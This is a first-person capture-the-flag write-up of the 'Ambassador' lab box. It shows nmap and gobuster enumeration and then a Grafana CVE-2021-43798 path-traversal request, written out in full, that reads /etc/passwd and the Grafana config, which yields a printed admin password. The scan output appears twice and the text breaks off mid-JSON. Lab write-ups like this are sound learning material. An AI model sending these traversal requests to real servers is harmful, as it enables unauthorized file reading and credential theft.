




## Intro

This was my first medium difficulty box.  I noticed it was the highest rated and due to be retired in 2 days -- so I decided to tackle this machine in order to quickly release a walkthrough (content creation! clicks! views!) and practice my note taking skills.  While I enjoy being in 'the zone', it is well worthwhile breaking momentarily to take comprehensive notes that can be weaved into a cohesive narrative -- if only so I can retrace my steps and help with future CTF challenges.

I'm guessing this may have been on the easier side of Medium difficulty, as I went from an nmap scan to root in a little under two hours.  Enumeration, exploitation and privilege escalation were fairly straight forward -- with privesc being a little less obvious in places.

## Enumeration

Initial nmap scan:

```bash
$nmap -sC -sV -o nmap/initial 10.10.11.183
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-26 20:07 AEDT
Nmap scan report for 10.10.11.183
Host is up (0.022s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:55 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:24 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:30 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 22
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, FoundRows, LongColumnFlag, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SwitchToSSLAfterHandshake, SupportsTransactions, LongPassword, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, SupportsCompression, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: edl\x1CrF\KY\x06&D?WD\x12[FEj
|_  Auth Plugin Name: caching_sha2_password
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.92%I=7%D=1/26%Time=63D242CD%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Contro
SF:l:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nExpir
SF:es:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cookie:\
SF:x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Conten
SF:t-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protect
SF:ion:\x201;\x20mode=block\r\nDate:\x20Thu,\x2026\x20Jan\x202023\x2009:07
SF::24\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found<
SF:/a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\nCac
SF:he-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPra
SF:gma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20HttpO
SF:nly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Frame-O
SF:ptions:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Th
SF:u,\x2026\x20Jan\x202023\x2009:07:30\x20GMT\r\nContent-Length:\x200\r\n\
SF:r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSess
SF:ionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Found\
SF:r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\
SF:r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.txt
SF:%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x201;
SF:\x20mode=block\r\nDate:\x20Thu,\x2026\x20Jan\x202023\x2009:07:55\x20GMT
SF:\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.24 seconds
$nmap -sC -sV -o nmap/initial 10.10.11.183
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-26 20:07 AEDT
Nmap scan report for 10.10.11.183
Host is up (0.022s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:55 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:24 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 26 Jan 2023 09:07:30 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 22
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, FoundRows, LongColumnFlag, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SwitchToSSLAfterHandshake, SupportsTransactions, LongPassword, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, SupportsCompression, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: edl\x1CrF\KY\x06&D?WD\x12[FEj
|_  Auth Plugin Name: caching_sha2_password
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.92%I=7%D=1/26%Time=63D242CD%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Contro
SF:l:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nExpir
SF:es:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cookie:\
SF:x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Conten
SF:t-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protect
SF:ion:\x201;\x20mode=block\r\nDate:\x20Thu,\x2026\x20Jan\x202023\x2009:07
SF::24\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found<
SF:/a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\nCac
SF:he-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPra
SF:gma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20HttpO
SF:nly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Frame-O
SF:ptions:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Th
SF:u,\x2026\x20Jan\x202023\x2009:07:30\x20GMT\r\nContent-Length:\x200\r\n\
SF:r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSess
SF:ionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Found\
SF:r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\
SF:r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.txt
SF:%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x201;
SF:\x20mode=block\r\nDate:\x20Thu,\x2026\x20Jan\x202023\x2009:07:55\x20GMT
SF:\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.24 seconds

```

The web server shows us the following:



Gobuster scan:

```
$gobuster dir -u "http://10.10.11.183/" -w /usr/share/wordlists/dirb/big.txt 
===============================================================
2023/01/26 20:13:15 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/categories           (Status: 301) [Size: 317] [--> http://10.10.11.183/categories/]
/images               (Status: 301) [Size: 313] [--> http://10.10.11.183/images/]    
/posts                (Status: 301) [Size: 312] [--> http://10.10.11.183/posts/]     
/server-status        (Status: 403) [Size: 277]                                      
/sitemap.xml          (Status: 200) [Size: 645]                                      
/tags                 (Status: 301) [Size: 311] [--> http://10.10.11.183/tags/] 
```

http://10.10.11.183:3000/ shows a grafana login page:



Port 3306 appears to be MySQL 8.0.30-0ubuntu0.20.04.2

Let's try enumerating mysql using nmap scripts:

```bash
$nmap -sV -o mysql.txt -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.11.183
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-26 20:19 AEDT
Nmap scan report for 10.10.11.183
Host is up (0.021s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 32
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSigpipes, Support41Auth, Speaks41ProtocolOld, SupportsLoadDataLocal, LongPassword, SupportsTransactions, SwitchToSSLAfterHandshake, InteractiveClient, Speaks41ProtocolNew, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsCompression, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: wG>f[9j\x199hxQZ\x19}\x10w%\x06?
|_  Auth Plugin Name: caching_sha2_password
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum: 
|   Accounts: No valid accounts found
|   Statistics: Performed 0 guesses in 6 seconds, average tps: 0.0
|_  ERROR: The service seems to have failed or is heavily firewalled...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.05 seconds

```

## Foothold

The login page for Grafana shows v8.2.0, and after a very quick search, I discover [GitHub - jas502n/Grafana-CVE-2021-43798: Grafana Unauthorized arbitrary file reading vulnerability](https://github.com/jas502n/Grafana-CVE-2021-43798)

Now, copying the `GET /login` HTTP request for the page into Burp Suite's repeater, and trying the very first URL for path traversal to see if we can traverse back to the root of the file system, and read `/etc/passwd`:

```
GET /public/plugins/alertGroups/../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: redirect_to=%2Fpublic%2Fplugins%2Falertlist%2F
Upgrade-Insecure-Requests: 1

```

we are successful - here's the response showing `/etc/passwd`:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-Length: 1983
Content-Type: text/plain; charset=utf-8
Expires: -1
Last-Modified: Mon, 14 Mar 2022 02:56:37 GMT
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-Xss-Protection: 1; mode=block
Date: Thu, 26 Jan 2023 10:03:19 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

```

Let's filter out users without a valid shell, which may be useful for SSH access later:

```bash
$grep -ivE "/bin/false|/usr/sbin/nologin" passwd.txt
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
developer:x:1000:1000:developer:/home/developer:/bin/bash
consul:x:997:997::/home/con

```

Reading through Grafana documentation, seeing where the config file is usually stored, and running a `GET /public/plugins/alertGroups/../../../../../../../../etc/grafana/grafana.ini` provides us the admin password. Fun times:

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

  And we can login to the Grafana web interface successfully:



I also tried other opportunistic files in the above path traversal, notably `/home/con/.ssh/id_rsa` and `/home/developer/.ssh/id_rsa`, but received the following response:

```json
{"message":"Could not open plugin file"}
```

I'm assuming this is because the grafana instance doesn't have read access to these files (computer says no).

Now we're logged into Grafana, we can call the API -- so checking the available plugins via [http://10.10.11.183:3000/api/plugins?embedded=0](http://10.10.11.183:3000/api/plugins?embedded=0).  I see mysql, which shouldn't come as a surprise given our earlier nmap scan:

```json
  {
    "name": "MySQL",
    "type": "datasource",
    "id": "mysql",
    "enabled": true,
    "pinned": false,
    "info": {
      "author": {
        "name": "Grafana Labs",
        "url": "https://grafana.com"
      },
      "description": "Data source for MySQL databases",
      "links": null,
      "logos": {
        "small": "public/app/plugins/datasource/mysql/img/mysql_logo.svg",
        "large": "public/app/plugins/datasource/mysql/img/mysql_logo.svg"
      },
      "build": {},
      "screenshots": null,
      "version": "",
      "updated": ""
    },
    "latestVersion": "",
    "hasUpdate": false,
